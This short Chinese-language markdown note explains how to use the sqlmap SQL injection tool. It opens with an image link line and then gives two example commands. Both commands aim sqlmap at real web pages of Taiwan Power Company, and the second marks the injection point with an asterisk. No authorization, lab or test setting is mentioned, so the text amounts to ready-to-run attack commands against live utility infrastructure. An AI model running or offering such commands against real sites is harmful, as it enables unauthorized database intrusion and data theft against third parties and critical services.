 # 如何使用 sqlmap

### 指定目標
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```
